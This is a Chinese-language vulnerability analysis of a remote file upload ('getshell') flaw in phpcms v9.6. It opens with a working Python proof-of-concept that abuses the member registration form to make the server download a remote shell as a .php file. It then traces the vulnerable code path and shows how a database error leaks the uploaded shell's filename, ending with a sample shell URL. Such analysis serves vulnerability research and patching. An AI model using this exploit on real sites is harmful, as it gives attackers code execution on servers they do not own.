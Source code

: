 #phpcms v9.6 getshell 分析
>很纠结这篇文章应该怎么去写，因为如果从cms本身开始到发现漏洞的位置。我发现逻辑有点混乱，可能需要更多的技术沉淀吧，本文就从poc来定位漏洞位置吧

1.**POC**
```python
import re  
import requests


def poc(url):  
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'test',
        'password': 'testxx',
        'email': 'test@test.com',
        'info[content]': '<img src=http://url/shell.txt?.php#.jpg>',
        'dosubmit': '1',
    }
    rep = requests.post(u, data=data)

    shell = ''
    re_result = re.findall(r'&lt;img src=(.*)&gt', rep.content)
    if len(re_result):
        shell = re_result[0]
        print shell
```
2.**Part 1 getshell分析**
1. 根据poc定位到```\root\phpcms\modules\member\index.php```里的register函数
2. 在该函数范围内未发现poc里的```info[content]```的直接赋值，只有下面这样的赋值，基本可以确定问题出在此处
```php
   if($member_setting['choosemodel']) {
        require_once CACHE_MODEL_PATH.'member_input.class.php';
        require_once CACHE_MODEL_PATH.'member_update.class.php';
        $member_input = new member_input($userinfo['modelid']);		
        $_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
        $user_model_info = $member_input->get($_POST['info']);
```
3. 注意到上面倒数三行的代码，我们跟进```\phpcms\modules\memeber\fields\member_input.class.php```里的member_input类及get函数
```php
<?php
class member_input {
	var $modelid;
	var $fields;
	var $data;

    function __construct($modelid) {
		$this->db = pc_base::load_model('sitemodel_field_model');
		$this->db_pre = $this->db->db_tablepre;
		$this->modelid = $modelid;
		$this->fields = getcache('model_field_'.$modelid,'model');

		//初始化附件类
		pc_base::load_sys_class('attachment','',0);
		$this->siteid = param::get_cookie('siteid');
		$this->attachment = new attachment('content','0',$this->siteid);

    }

	function get($data) {
		$this->data = $data = trim_script($data);
		$model_cache = getcache('member_model', 'commons');
		$this->db->table_name = $this->db_pre.$model_cache[$this->modelid]['tablename'];

		$info = array();
		$debar_filed = array('catid','title','style','thumb','status','islink','description');
		if(is_array($data)) {
			foreach($data as $field=>$value) {
				if($data['islink']==1 && !in_array($field,$debar_filed)) continue;
				$field = safe_replace($field);
				$name = $this->fields[$field]['name'];
				$minlength = $this->fields[$field]['minlength'];
				$maxlength = $this->fields[$field]['maxlength'];
				$pattern = $this->fields[$field]['pattern'];
				$errortips = $this->fields[$field]['errortips'];
				if(empty($errortips)) $errortips = "$name 不符合要求！";
				$length = empty($value) ? 0 : strlen($value);
				if($minlength && $length < $minlength && !$isimport) showmessage("$name 不得少于 $minlength 个字符！");
				if (!array_key_exists($field, $this->fields)) showmessage('模型中不存在'.$field.'字段');
				if($maxlength && $length > $maxlength && !$isimport) {
					showmessage("$name 不得超过 $maxlength 个字符！");
				} else {
					str_cut($value, $maxlength);
				}
				if($pattern && $length && !preg_match($pattern, $value) && !$isimport) showmessage($errortips);
	            if($this->fields[$field]['isunique'] && $this->db->get_one(array($field=>$value),$field) && ROUTE_A != 'edit') showmessage("$name 的值不得重复！");
				$func = $this->fields[$field]['formtype'];
				if(method_exists($this, $func)) $value = $this->$func($field, $value);
	
				$info[$field] = $value;
			}
		}
		return $info;
	}
}?>
```
注意到$this->fields在构造函数中定义为
```$this->fields = getcache('model_field_'.$modelid,'model');```
而在第二步中，mew member_input时传入的参数的赋值为
```$userinfo['modelid'] = isset($_POST['modelid']) ? intval($_POST['modelid']) : 10;```
这也解释了在poc控制modelid=1的原因，到此我们可以控制getcache的文件为```model_field_1.cache.php```
4. 跟进```root\caches\caches_model\caches_data\model_field_1.cache.php```与分析第三步的代码可知在poc中```info[content]```的情况下```$func = $this->fields[$field]['formtype'];```取到的值为```'formtype' => 'editor'```，而```if(method_exists($this, $func)) $value = $this->$func($field, $value);```等于```$value = editor($field,$value)```
5. 跟进```root\caches\caches_model\caches_data\member_input_class.php```
```php
function editor($field, $value) {
    $setting = string2array($this->fields[$field]['setting']);
    $enablesaveimage = $setting['enablesaveimage'];
    $site_setting = string2array($this->site_config['setting']);
    $watermark_enable = intval($site_setting['watermark_enable']);
    $value = $this->attachment->download('content', $value,$watermark_enable);
    return $value;
}
```
这里的```$field```,```$value```在第三步的代码中写的很清楚``foreach($data as $field=>$value)```,注意倒数第二行，这里也把content写死了
6. 跟进```\root\phpcms\libs\classes\attachment.class.php```里的```function download()```
```php
function download($field, $value,$watermark = '0',$ext = 'gif|jpg|jpeg|bmp|png', $absurl = '', $basehref = '')
{
    global $image_d;
    $this->att_db = pc_base::load_model('attachment_model');
    $upload_url = pc_base::load_config('system','upload_url');
    $this->field = $field;
    $dir = date('Y/md/');
    $uploadpath = $upload_url.$dir;
    $uploaddir = $this->upload_root.$dir;
    $string = new_stripslashes($value);
    if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;
    $remotefileurls = array();
    foreach($matches[3] as $matche)
    {
        if(strpos($matche, '://') === false) continue;
        dir_create($uploaddir);
        $remotefileurls[$matche] = $this->fillurl($matche, $absurl, $basehref);
    }
```
这里只贴出了部分的代码，但涵盖了关键的位置，```if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i", $string, $matches)) return $value;```这里这条正则匹配的是形如```href=http://evil.com/1.jpg```的以```.$ext```结尾的字符串，如果不匹配直接返回```value```
**PS:这里推荐[https://regex101.com/](https://regex101.com/)这个工具来分析正则（但是这个工具应该是还不完善，在分析正则的时候，好像都是一次性分析，比如用上面的正则直接去尝试的话，```\\2```会被解析为```\```和```2```这两个字符，而不是取到第二个括号里的```[\"|']?```，导致正则被曲解，所以如果用这个工具应该是些微```/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\2/i```）**

7. 在poc```<img src=http://url/shell.txt?.php#.jpg>```的前提下，我们可以不返回value，进入```function fillurl($surl, $absurl, $basehref = '')```，继续跟进
```php
function fillurl($surl, $absurl, $basehref = '') {
    if($basehref != '') {
        $preurl = strtolower(substr($surl,0,6));
        if($preurl=='http://' || $preurl=='ftp://' ||$preurl=='mms://' || $preurl=='rtsp://' || $preurl=='thunde' || $preurl=='emule://'|| $preurl=='ed2k://')
        return  $surl;
        else
        return $basehref.'/'.$surl;
    }
    $i = 0;
    $dstr = '';
    $pstr = '';
    $okurl = '';
    $pathStep = 0;
    $surl = trim($surl);
    if($surl=='') return '';
    $urls = @parse_url(SITE_URL);
    $HomeUrl = $urls['host'];
    $BaseUrlPath = $HomeUrl.$urls['path'];
    $BaseUrlPath = preg_replace("/\/([^\/]*)\.(.*)$/",'/',$BaseUrlPath);
    $BaseUrlPath = preg_replace("/\/$/",'',$BaseUrlPath);
    $pos = strpos($surl,'#');
    if($pos>0) $surl = substr($surl,0,$pos);
```
其功能也就是去除url中的锚点，所以poc中的```<img src=http://url/shell.txt?.php#.jpg>```会被处理为```<img src=http://url/shell.txt?.php>```
8. 继续向下 166行```$filename = fileext($file);```跟进```phpcms\libs\functions\global.func.php```

	```php
function fileext($filename) {
	return strtolower(trim(substr(strrchr($filename, '.'), 1, 10)));
}
```
发现直接取得路径的最后一个.php作为文件类型
9. 继续向下171行```$upload_func = $this->upload_func;```，
23行的构造方法中```$this->upload_func = 'copy';写死为copy```
168行```$filename = $this->getname($filename);```跟进
```php
function getname($fileext){
    return date('Ymdhis').rand(100, 999).'.'.$fileext;
}
```
发现文件被重命名为随机

3.**Part 2 报错分析**
>这个漏洞如果只是上面生成的随机文件，在利用上还是需要一定代价去爆破的，但是如果爆出文件名的话那就好利用多了

注册index里的150行```$this->db->insert($user_model_info);```，其插入的表结构
```mysql
mysql> describe v9_member_detail;
+----------+-----------------------+------+-----+---------+-------+
| Field    | Type                  | Null | Key | Default | Extra |
+----------+-----------------------+------+-----+---------+-------+
| userid   | mediumint(8) unsigned | NO   | PRI | 0       |       |
| birthday | date                  | YES  |     | NULL    |       |
+----------+-----------------------+------+-----+---------+-------+
2 rows in set (0.13 sec)
```
我们的字段不在其中，于是报错
4.**Part 3 测试结果**
运行poc（注意这里报错还有一个status>0的条件，如果不开启php_sso的话，可以自己改一下）
```shell
http://127.0.0.1/phpcms/install_package/uploadfile/2017/0419/20170419085014909.php
[Finished in 6.3s]
```